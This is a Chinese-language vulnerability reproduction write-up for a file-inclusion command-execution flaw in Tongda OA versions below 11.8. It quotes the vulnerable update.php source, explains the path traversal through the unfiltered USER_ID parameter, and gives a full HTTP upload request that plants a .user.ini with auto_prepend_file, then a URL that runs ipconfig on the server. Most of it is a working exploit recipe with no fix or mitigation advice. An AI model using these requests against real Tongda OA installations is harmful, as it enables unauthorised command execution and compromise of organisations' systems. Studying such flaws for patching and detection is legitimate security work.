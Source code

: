 # 通达OA v11.8 update.php 后台文件包含命令执行漏洞

## 漏洞描述

通达OA v11.8以下存在文件上传接口，可上传 .user.ini 文件包含有PHP语句的文件导致命令执行

## 漏洞影响

<a-checkbox checked>通达OA < v11.8</a-checkbox></br>

## 漏洞复现

这里使用的环境为通达 v11.6版本

出现漏洞的文件为 `webroot/general/hr/manage/staff_info/update.php`

```php
<?php

include_once "inc/auth.inc.php";
include_once "inc/utility_all.php";
include_once "inc/utility_file.php";
include_once "inc/utility_field.php";
include_once "inc/utility_cache.php";
include_once "general/system/log/annual_leave_log.php";
if (strstr($BYNAME, "/") || strstr($BYNAME, "\\") || strstr($BYNAME, "..")) {
	Message(_("错误"), _("OA用户名包含非法字符！"));
	exit();
}

include_once "inc/header.inc.php";
echo "\r\n<body class=\"bodycolor\">\r\n";
echo "\r\n<body class=\"bodycolor\">\r\n";
$PHOTO_NAME0 = $_FILES["ATTACHMENT"]["name"];
$ATTACHMENT = $_FILES["ATTACHMENT"]["tmp_name"];

if ($PHOTO_NAME0 != "") {
	$FULL_PATH = MYOA_ATTACH_PATH . "hrms_pic";

	if (!file_exists($FULL_PATH)) {
		@mkdir($FULL_PATH, 448);
	}

	$PHOTO_NAME = $USER_ID . substr($PHOTO_NAME0, strrpos($PHOTO_NAME0, "."));
	$FILENAME = MYOA_ATTACH_PATH . "hrms_pic/" . $PHOTO_NAME;
	td_copy($ATTACHMENT, $FILENAME);

	if (file_exists($ATTACHMENT)) {
		unlink($ATTACHMENT);
	}

	if (!file_exists($FILENAME)) {
		Message(_("附件上传失败"), _("原因：附件文件为空或文件名太长，或附件大于30兆字节，或文件路径不存在！"));
		Button_Back();
		exit();
	}
}
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/tongdaoa-30.png)

在这里参数 `$USER_ID` 是可控的，并且无过滤危险符号就拼接进去了，那我们传入 `../../../` 我们就可以任意文件上传了

由于通达OA 的文件上传限制的死死的，所以我们可以通过利用 PHP的 `.user.ini` 文件来包含其他文件，这里是可以用于包含PHP语句的文件的，所以我们上传文件内容为

```plain
auto_prepend_file=ttt.log
```

请求包为

```plain
POST /general/hr/manage/staff_info/update.php?USER_ID=../../general/reportshop/workshop/report/attachment-remark/.user HTTP/1.1
Host: 192.168.1.105
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:81.0) Gecko/20100101 Firefox/81.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------17518323986548992951984057104
Content-Length: 365
Connection: close
Cookie: USER_NAME_COOKIE=admin; OA_USER_ID=admin; PHPSESSID=kqfgar7u3c0ang0es41u3u67p4; SID_1=a63eb31
Upgrade-Insecure-Requests: 1

-----------------------------17518323986548992951984057104
Content-Disposition: form-data; name="ATTACHMENT"; filename="ttt.ini"
Content-Type: text/plain

auto_prepend_file=ttt.log
-----------------------------17518323986548992951984057104
Content-Disposition: form-data; name="submit"

提交
-----------------------------17518323986548992951984057104--
```

其中 `USER_ID=../../general/reportshop/workshop/report/attachment-remark/.user` 为上传路径

这里我们简单知道了上传方式，那我们就通过 `.user.ini文件` 包含恶意文件

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/tongdaoa-38.png)



现在已经成功上传了恶意文件

```
 /general/reportshop/workshop/report/attachment-remark/form.inc.php?ttt=ipconfig 
```





![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/tongdaoa-39.png)



<a-checkbox checked>在 v11.6中 上传的位置并没有限定所以可以上传在方便访问的目录(不需要登录)</a-checkbox></br>

<a-checkbox checked>而 v11.8中则有目录名的限制需要目录带有 webroot 和 attachment</a-checkbox></br>



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/tongdaoa-35.png)



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/tongdaoa-34.png)
